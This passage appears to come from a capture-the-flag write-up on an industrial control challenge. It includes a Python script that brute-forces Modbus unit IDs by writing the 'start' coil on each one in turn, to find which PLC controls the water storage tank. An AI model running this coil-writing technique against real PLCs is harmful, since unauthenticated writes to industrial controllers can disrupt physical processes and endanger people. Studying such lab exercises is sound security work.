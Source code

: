 Currently we are in the `Filing State` and we want as first to set the `manual mode control` to **True** and same thing for `force start`. Just to identify the address with the "brute force" approach we can try to change the value of `start` since is needed to reach the drain state

Moving into **<u>Mixer Tank</u>** we can also use the `start` coil trying to identify the corresponding PLC

Cool let's bring all togheter and create a script to identify the **<u>Water Storage Tank</u>**

```python
import socket
import json


host = "159.65.20.166"
port = 31896
modbus_cmd = "050035FF00" # 05 = function write single coil / 0035 = 'start' coil address (present on the PDF) / FF00 = write value 1


for i in range(1,256):
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
                sock.connect((host, port))
                sock.recv(1024)
                sock.recv(1024)
                n = format(i, '02X')

                print(f'\r{n}', end='')

               
             
                # sending the modbus command to the network
                payload = 'modbus ' + n + modbus_cmd + '\n'
                sock.send(payload.encode())
                sock.recv(1024)
                sock.recv(1024)
				
			    # adjust the output and load it as json for a better value retrival
                sock.send(b"system\n")
                sock.recv(1024)
                js2 = sock.recv(1024)
                js2 = js2.split(b"\n")
                water_post = js2[0]
                water_post = json.loads(water_post[27:])
                if (water_post['start'] == 1):
                        print(f"\nWater PLC have ID {n}")
                        sock.close()
                        break
```

Now we can run it, wait a little bit and enjoy the result


![832aa87ff2a0a75df223795f2f4407d0.png](img/832aa87ff2a0a75df223795f2f4407d0.png)
